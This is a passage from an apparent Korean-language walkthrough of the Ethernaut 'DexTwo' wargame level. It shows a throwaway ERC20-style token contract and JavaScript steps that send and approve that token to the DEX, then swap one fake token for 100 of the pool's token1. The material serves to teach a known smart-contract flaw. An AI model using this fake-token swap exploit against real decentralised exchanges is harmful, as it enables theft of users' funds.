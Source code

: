 ```solidity
    }
    
    function transfer(address to, uint256 amount) public returns (bool) {
        require(balanceOf[msg.sender] >= amount, "Insufficient balance");
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        return true;
    }
    
    function approve(address spender, uint256 amount) public returns (bool) {
        allowance[msg.sender][spender] = amount;
        return true;
    }
    
    function transferFrom(address from, address to, uint256 amount) public returns (bool) {
        require(balanceOf[from] >= amount, "Insufficient balance");
        require(allowance[from][msg.sender] >= amount, "Insufficient allowance");
        
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        allowance[from][msg.sender] -= amount;
        return true;
    }
}
```

### 2단계: Token1 탈취
```javascript
// 1. 악의적인 토큰 주소 (Remix에서 배포한 주소)
const malTokenAddress = "0x4ee6ecad1c2dae9f525404de8555724e3c35d07b";

// 2. 악의적인 토큰 컨트랙트 인스턴스
const malTokenABI = [
    {
        "inputs": [{"name": "to", "type": "address"}, {"name": "amount", "type": "uint256"}],
        "name": "transfer",
        "outputs": [{"type": "bool"}],
        "type": "function"
    },
    {
        "inputs": [{"name": "spender", "type": "address"}, {"name": "amount", "type": "uint256"}],
        "name": "approve", 
        "outputs": [{"type": "bool"}],
        "type": "function"
    }
];

const malToken = new web3.eth.Contract(malTokenABI, malTokenAddress);

// 3. DexTwo에 악의적인 토큰 1개 전송
await malToken.methods.transfer(contract.address, 1).send({from: player});

// 4. DexTwo에 악의적인 토큰 사용 승인
await malToken.methods.approve(contract.address, 1).send({from: player});

// 5. token1 주소 확인
const token1Address = await contract.token1();

// 6. 악의적인 토큰 1개를 token1 100개와 스왑
// swapAmount = (1 * 100) / 1 = 100
await contract.swap(malTokenAddress, token1Address, 1);
```
